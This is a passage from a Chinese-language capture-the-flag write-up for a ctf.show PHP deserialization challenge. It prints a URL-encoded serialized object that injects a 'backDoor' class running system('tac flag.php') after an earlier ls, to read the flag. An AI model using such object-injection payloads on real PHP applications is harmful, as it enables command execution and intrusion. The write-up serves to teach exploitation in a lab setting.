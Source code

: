 然后我们再写入GET参数

```url
http://4e682701-7827-469b-b19a-e1fa65731ba8.challenge.ctf.show/?username=xxxxxx&password=xxxxxx
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这里我们首先写入的是ls命令，我们看到flag.php文件，所以我们查看flag.php

我们将他修改为

```
O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A23%3A%22system%28%22tac+flag.php%22%29%3B%22%3B%7D%7D
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

最后得到flag。

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
